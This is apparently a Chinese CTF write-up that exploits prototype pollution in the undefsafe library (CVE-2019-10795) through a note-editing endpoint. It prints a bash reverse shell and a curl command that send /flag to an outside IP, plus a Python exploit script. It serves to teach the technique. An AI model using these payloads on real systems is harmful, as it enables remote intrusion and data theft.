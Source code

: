 ![image-20241021195603126](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202410211956236.png)

我们在虚拟机上的/var/www/html写一个shell文件并监听，在访问status时就会反弹shell

```
bash -i >& /dev/tcp/60.204.158.87/2333 0>&1
```

在edit_note下传入参数，再访问status

成功连接上

![image-20241021204059543](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202410212040725.png)

我们再在edit_note里写入访问flag的命令

```
id=__proto__.bb&author=curl -F "FLAG=@/flag" 60.204.158.87:2333&raw=a
```

我们访问status，得到flag

![image-20241021204331010](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202410212043052.png)





或者利用脚本

```
import requests
r = requests.Session()
url = "http://e8af756d-8fa5-4cfd-a295-7bc1a07fd49a.node5.buuoj.cn:81/"
data = {'id': '__proto__', 'author': 'curl -F \'flag=@/flag\' IP:2333', 'raw': '123'}   #bash -i > /dev/tcp/IP/2333 0>&1
a = r.post(url=url + "edit_note", data=data)
print(a.text)
if "Something" in a.text:
    b = r.get(url=url + "status")
    print(b.text)
```



### undefsafe作用

```javascript
var object = {
	a: {b: [1,2,3]}
};
var res = undefsafe(object, 'a.b.0', 10);
console.log(object); // { a: { b: [10, 2, 3] } }
//这里可以看见1被替换成了10
```

[CVE-2019-10795 原型链污染(Prototype Pollution)](https://snyk.io/vuln/SNYK-JS-UNDEFSAFE-548940)

在版本小于2.0.3的`undefsafe`函数有漏洞，可以污染**所有对象**的原型链，给对象添加属性。
